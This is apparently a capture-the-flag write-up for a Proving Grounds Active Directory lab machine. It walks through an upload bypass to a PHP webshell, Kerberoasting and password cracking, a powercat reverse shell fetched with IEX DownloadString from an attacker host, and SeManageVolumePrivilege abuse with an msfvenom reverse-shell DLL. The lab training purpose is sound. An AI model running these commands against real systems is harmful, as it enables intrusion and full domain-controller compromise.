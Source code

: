 # Network Enumeration

```bash
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
80/tcp   open  http         Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-22 15:43:59Z)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf       .NET Message Framing
```

# Port Enumeration

## 80

`Buy Tickets` to upload bypass. `filename="shell.php::$DATA"`

<img src="../Images/image-20230823002217461.png" alt="image-20230823002217461" style="zoom:80%;" />

<img src="../Images/image-20230823002234393.png" alt="image-20230823002234393" style="zoom:80%;" />

Then can running commands.

<img src="../Images/image-20230823002255074.png" alt="image-20230823002255074" style="zoom:80%;" />

Download the webshell.

```bash
http://192.168.248.187/uploads/shell.php?cmd=powershell%20-c%20iwr%20-uri%20http://192.168.45.159/reverse_shell_windows.php%20-o%20reverseshell.php
```

<img src="../Images/image-20230823003412284.png" alt="image-20230823003412284" style="zoom:80%;" />

Then get shell.

<img src="../Images/image-20230823003358341.png" alt="image-20230823003358341" style="zoom:80%;" />

# PE

## Basic Information

### System

```
Microsoft Windows Server 2019 Standard 10.0.17763 N/A Build 17763
```

### Vulnerability Information

```
[*] Enumerating installed KBs...
 [!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-0841 : VULNERABLE
  [>] https://github.com/rogue-kdc/CVE-2019-0841
  [>] https://rastamouse.me/tags/cve-2019-0841/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1253 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2019-1253
  [>] https://github.com/sgabe/CVE-2019-1253

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1385 : VULNERABLE
  [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 12 potential vulnerabilities.

```

### TCP Ports

<img src="../Images/image-20230823004544903.png" alt="image-20230823004544903" style="zoom:80%;" />





## Check other users

The `local.txt` isn't in the `svc_apache\desktop`.

<img src="../Images/image-20230823101037487.png" alt="image-20230823101037487" style="zoom:33%;" />

But can find another user live in `C:\users\`

<img src="../Images/image-20230823101108455.png" alt="image-20230823101108455" style="zoom:50%;" />

Try to use `Get SPN` to get more information.

The SPN of the `MSSQL` object was now obtained: `MSSQLSvc/DC.access.offsec`. The next step was to request the ticket from "svc_mssql" and get the hash from the ticket.

<img src="../Images/image-20230823101141900.png" alt="image-20230823101141900" style="zoom:80%;" />

To request the ticket, two commands can be executed to request and store the ticket in the memory.

```powershell
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'
```

<img src="../Images/image-20230823101625314.png" alt="image-20230823101625314" style="zoom:80%;" />

To get the kerberoast hash of the ticker, `Invoke-Kerberoast.ps1` is needed to extract the hash from memory, Download from [GitHub](https://github.com/EmpireProject/Empire)

```powershell
PS C:\Users\svc_apache> iwr -uri http://192.168.45.183/Invoke-Kerberoast.ps1 -o Invoke-Kerberoast.ps1
iwr -uri http://192.168.45.183/Invoke-Kerberoast.ps1 -o Invoke-Kerberoast.ps1
PS C:\Users\svc_apache> . .\Invoke-Kerberoast.ps1
PS C:\Users\svc_apache> Invoke-Kerberoast -OutputFormat Hashcat
```

Then will get the hash value.

<img src="../Images/image-20230823102052330.png" alt="image-20230823102052330" style="zoom:80%;" />

Edit the format to prepare crack this hash.

<img src="../Images/image-20230823102510990.png" alt="image-20230823102510990" style="zoom:80%;" />

Use mode `13100` to crack this hash. Finally get the password is `trustno1`

<img src="../Images/image-20230823102653210.png" alt="image-20230823102653210" style="zoom:80%;" />

Use `crackmapexec` to test if this password is vaild.

<img src="../Images/image-20230823102959703.png" alt="image-20230823102959703" style="zoom:80%;" />

Then Use [Invoke-RunasCs.ps1](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1) to try to runnnig `whoami`.

```powershell
PS C:\Users\svc_apache> iwr -uri http://192.168.45.183/Invoke-RunasCs.ps1 -o Invoke-RunasCs.ps1
PS C:\Users\svc_apache> . .\Invoke-RunasCs.ps1
PS C:\Users\svc_apache> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
[*] Warning: The logon for user 'svc_mssql' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.
access\svc_mssql
```



<img src="../Images/image-20230823103158370.png" alt="image-20230823103158370" style="zoom:80%;" />

Now can use this way to reverse shell.

```powershell
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.183/powercat.ps1');powercat -c 192.168.45.183 -p 4444 -e cmd"
```

<img src="../Images/image-20230823103752045.png" alt="image-20230823103752045" style="zoom:80%;" />

Get `svc_mssql` reverse shell.

## Check svc_mssql permission

<img src="../Images/image-20230823103924392.png" alt="image-20230823103924392" style="zoom:50%;" />

The `SeManageVolumePrivilege` privilege was set to enabled on the `svc_mssql` user, which was interesting.

I found a [SeManageVolumeAbuse](https://github.com/xct/SeManageVolumeAbuse) GitHub repo that can be used in this circumstance.

The general idea is that the attacker can leverage this particular privilege with the exploitation to get full control over `C:\`, and then it can craft a `.dll` file and place it in somewhere `C:\Windows\System32\` to trigger the payload as root.

I then downloaded the binary executable from [here](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public) and transferred it to the machine.

After running the exploit, I could see I was able to write to the `C:\Windows\System32\` folder.

<img src="../Images/image-20230823104452031.png" alt="image-20230823104452031" style="zoom:80%;" />

I made a reverse shell payload through `msfvenom`.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/access]
└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.183 LPORT=6666 -f dll -o tzres.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: tzres.dll
```

Transfer to target machine.

<img src="../Images/image-20230823105318001.png" alt="image-20230823105318001" style="zoom:80%;" />

In the last step, I ran `systeminfo` to trigger the payload. Then get administrator shell.

<img src="../Images/image-20230823105415030.png" alt="image-20230823105415030" style="zoom:80%;" />



# Refer

https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d
